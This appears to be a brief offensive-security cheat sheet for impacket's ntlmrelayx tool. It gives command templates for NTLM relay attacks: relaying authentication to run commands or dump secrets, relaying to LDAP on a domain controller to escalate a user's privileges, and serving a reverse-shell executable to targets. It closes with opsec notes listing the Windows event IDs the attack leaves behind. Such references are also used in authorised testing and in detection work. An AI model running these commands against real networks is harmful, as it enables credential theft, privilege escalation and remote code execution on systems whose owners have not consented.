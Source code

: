 ### source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py  

### Pass-The-Hash with NTHash/NTLM possible
```
# Pass-The-Hash with NET-NTLM/NTLMv1/v2 not possible
```

### relay requests to ip addresses, without -c ntlmrelayx will use secretsdump (must be in the same directory)
```
impacket-ntlmrelayx -tf <rhostFile> -c '<command>'
```

### start relay using ldap (authentication needs to go over HTTP) - use ldaps for secure ldap
```
impacket-ntlmrelayx -t ldap://<dcIp> --escalate-user <user>
```

### serve payload, -t = target, -e payload from file - if client throws smb version-error use: -smb2support
```
impacket-ntlmrelayx -t <rhost> -e <./reverse.exe>
```

### opsec considerations - 
```
Windows Security Log Event IDs
-Logon (4624) -> multiple
-Logoff (4634) -> multiple
-Special Logon (4672) -> multiple

Windows System Logs
Service Control Manager (7040) -> multiple
```

